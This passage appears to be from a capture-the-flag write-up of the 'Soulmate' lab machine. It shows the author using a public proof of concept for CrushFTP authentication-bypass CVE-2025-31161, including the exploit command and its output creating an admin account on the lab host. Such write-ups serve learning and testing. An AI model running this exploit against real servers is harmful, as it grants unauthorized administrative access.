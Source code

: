 ```sh
```
> I added  `file.soulmate.htb`  to `/etc/hosts` 

![file.soulmate.htb](/images/Soulmate/filesoulmate.png)


## Exploitation

I do a resarch about `CrushFtp` cves , i got that there is a `CVE-2025-31161` that exploit the authbypass vulnerability to create a new user account with Admin level permissions.  [poc](https://github.com/Immersive-Labs-Sec/CVE-2025-31161)

```sh
$ python cve-2025-31161.py --target_host ftp.soulmate.htb --port 80 --target_user root --new_user zenon --password zenon
[+] Preparing Payloads
  [-] Warming up the target
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: zenon
   [*] Password: zenon.
```
I loged in using the new credentials :
